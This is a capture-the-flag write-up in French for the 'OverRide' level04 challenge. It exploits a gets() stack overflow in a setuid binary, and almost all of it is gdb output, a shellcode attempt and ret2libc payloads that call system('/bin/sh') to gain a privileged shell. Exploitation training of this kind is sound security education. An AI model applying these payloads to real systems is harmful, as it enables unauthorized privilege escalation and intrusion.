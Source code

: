 # level04

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04

level04@OverRide:~$ file level04 
level04: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x7386c3c1bbd3e4d8fc85f88744379783bf327fd7, not stripped
```

Dans le gets, nous ecrasons save eip a partir de 156 characteres:
=> 0x0804875e <+150>:   call   0x80484b0 <gets@plt>
(gdb) x/wx $esp
0xffffd490:     0xffffd4b0
(gdb) x/s 0xffffd4b0
0xffffd4b0:      ""
(gdb) info frame
Stack level 0, frame at 0xffffd550:
 eip = 0x804875e in main; saved eip 0xf7e45513
 Arglist at 0xffffd548, args: 
 Locals at 0xffffd548, Previous frame's sp is 0xffffd550
 Saved registers:
  ebx at 0xffffd540, ebp at 0xffffd548, edi at 0xffffd544, eip at 0xffffd54c
(gdb) p/d 0xffffd54c-0xffffd4b0
$1 = 156

level04@OverRide:~$ (python -c 'print "\x90" * (156-64) + "\x2b\xc9\x83\xe9\xf6\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e\xf3\x43\x6c\x98\x83\xee\xfc\xe2\xf4\x99\x48\x34\x01\xa1\x25\x04\xb5\x90\xca\x8b\xf0\xdc\x30\x04\x98\x9b\x6c\x0e\xf1\x9d\xca\x8f\xca\x1b\x40\x6c\x98\xf3\x30\x04\x98\xa4\x10\xe5\x79\x3e\xc3\x6c\x98" + "\x75\xd7\xff\xff"';cat) | ./level04 
Give me some shellcode, k
no exec() for you

Nous ne pouvons pas utiliser la fonction exec(), nous pouvons utiliser la technique du retour a la libc, qui consiste a aller chercher dans la memoire deja presente la fonction system, son argument et pourquoi pas son retour, meme si dans notre cas, nous n en avons pas besoin.

(gdb) print system
$2 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) print exit
$3 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

export TMP="/bin/sh";(python -c 'print "B"*156+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\x54\xdf\xff\xff"';cat) | ./level04

(python -c 'print "B"*156+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xb7\xd8\xff\xff"';cat) | ./level04
-> La variable d environnement SHELL existe deja !

(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:      "/bin/sh"

(python -c 'print "B"*156+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"';cat) | ./level04

[ buffer permettant d'atteindre l'overflow ] [ Adresse system() ] [ Adresse retour ] [ Adresse "/bin/sh" ]



